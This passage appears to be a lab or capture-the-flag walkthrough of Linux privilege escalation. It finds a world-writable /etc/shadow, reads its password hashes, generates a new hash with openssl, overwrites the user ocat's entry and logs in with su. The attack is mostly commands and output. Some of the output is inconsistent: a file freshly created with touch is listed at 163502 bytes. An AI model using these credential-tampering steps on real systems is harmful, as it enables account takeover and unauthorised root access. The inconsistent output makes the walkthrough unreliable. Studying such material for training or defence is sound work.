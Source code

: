 It seems `suzuki` doesn't have bash, so to move forward, create a new file:

```shell
# Create a file
touch /home/suzuki/null
# Check
ls /home/suzuki/
null
# Verify permissions
# If it's not -rw-rw-r--, adjust permissions
ls -l /home/suzuki
-rw-rw-r-- 1 suzuki suzuki 163502 Dec 17 10:19 null
# Look for 777 permissions
find / -type f -perm 777 2>/home/suzuki/null
/etc/shadow
/etc/group
```

Passwords used for Linux user logins are stored in `/etc/shadow`.  
Lastly, check the permissions of `/etc/shadow` and `/etc/group`.

```shell
ls -l /etc/shadow
-rwxrwxrwx 1 root shadow 1583 Dec 14 09:19 /etc/shadow
ls -l /etc/group
-rwxrwxrwx 1 root root 1324 Dec 17 10:14 /etc/group
```

## RWXRWXRWX /etc/shadow

Here, we will escalate privileges on `/etc/shadow`.  
The ultimate goal is to change `ocat`'s password and `root`'s password.  
First, check the contents of `/etc/shadow`.

```shell
cat /etc/shadow
ocat:xxxxxxxxxxxxxx...
user:xxxxxxxxxxxxxx...
suzuki:xxxxxxxxxxxxxx...
# You should see the hashed passwords.
```

Create the password with `openssl`:

```shell
openssl passwd hacked123
```

Once created, replace the hash in `/etc/shadow` for `ocat:xxxxxx…` with the new hash.

```shell
vi /etc/shadow
su ocat
password:

# login done
```
